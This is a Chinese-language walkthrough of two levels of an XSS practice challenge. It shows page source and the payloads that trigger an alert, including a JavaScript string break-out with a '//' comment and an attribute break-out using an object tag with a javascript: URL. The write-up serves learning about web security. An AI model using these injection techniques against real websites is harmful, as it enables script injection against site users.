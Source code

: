 ### Level 6

**思路**  
直接使用Level 5.2的代码来探测一下，无法弹窗，生成的页面源码如下：
```html
<script>
a = '\\'; alert(document.domain);&lt;!--'
</script>
```
这次`<`被实体化编码，无法在`<script>`标签中起到任何作用。那就尝试下JS的comment符号，顺利弹窗：
```html
\'; alert(document.domain);//
```

### Level 7

**思路**  
先看一下页面源码，如下：
```html
<html>
<body>
<script src="analytics.js"></script>
Get popup within sudo.co.il context.

<p>
<a href="http://localhost/?your_payload">hohoho!!!</a>
</a>

<script>
</script>

</body>
</html>
```
这次的注入点在Anchor标签`<a>`里面。比较直接的思路是闭合`href`属性，然后加Event来调用JS代码。但无法实现题目中
要求的"popup window with document.domain (sudo.co.il) without user interaction"。因为`<a>`标签
中无法使用`autofocus`属性，不能自动触发`onfocus`事件。因此必须转换思路。首先尝试下能否闭合`<a>`标签，输入如下
代码：
```html
test"><a href="
```
结果如下：
```html
<p>
<a href="http://localhost/?test"><a href="">hohoho!!!</a>
</a>
```
说明`<a>`标签可被闭合。接下来尝试在第二个标签中注入伪协议，执行JS代码。
```html
test"><a href="javascript:alert(1)" x="
```
结果未能弹窗，检查HTML源码如下：
```html
<p>
<a href="http://localhost/?test"><a href="javascript:alert(1)" x="">hohoho!!!</a>
</a>
```
原来根据[HTML协议](https://www.w3schools.com/html/html_links.asp), 链接的`text`部分不能是另一个链接。
尝试将注入代码改成：
```html
test"><img src="javascript:alert(1)
```
仍然失败，检查源码发现`<img>`标签被过滤掉了。尝试`<svg>`，依然被过滤。尝试`<object>`，未被过滤。使用如下代码
顺利自动弹窗：
```html
test"><object data="javascript:alert(document.domain)
```